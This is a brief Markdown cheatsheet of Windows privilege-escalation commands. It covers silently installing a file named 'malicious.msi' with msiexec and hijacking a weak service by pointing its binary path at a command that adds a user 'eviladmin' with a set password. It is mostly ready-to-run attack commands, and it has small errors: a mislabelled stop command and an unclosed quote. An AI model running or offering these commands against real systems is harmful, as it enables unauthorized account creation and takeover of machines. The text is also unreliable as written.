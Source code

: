 # Cheatsheet

## MSI

### Installing MSI
```
msiexec /quiet /qn /i malicious.msi
```
```
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

## Services

- Registry entries: `HKLM\SYSTEM\CurrentControlSet\Services`
- View service properties: `sc qc "Vulnerable Service"`
- Restarting: `sc stop "Vulnerable Service"`
- Restart PC: `shutdown /r /t 0`
- Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`

### Keep alive
When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it’s not, `Service Control Manager` will terminates the process.
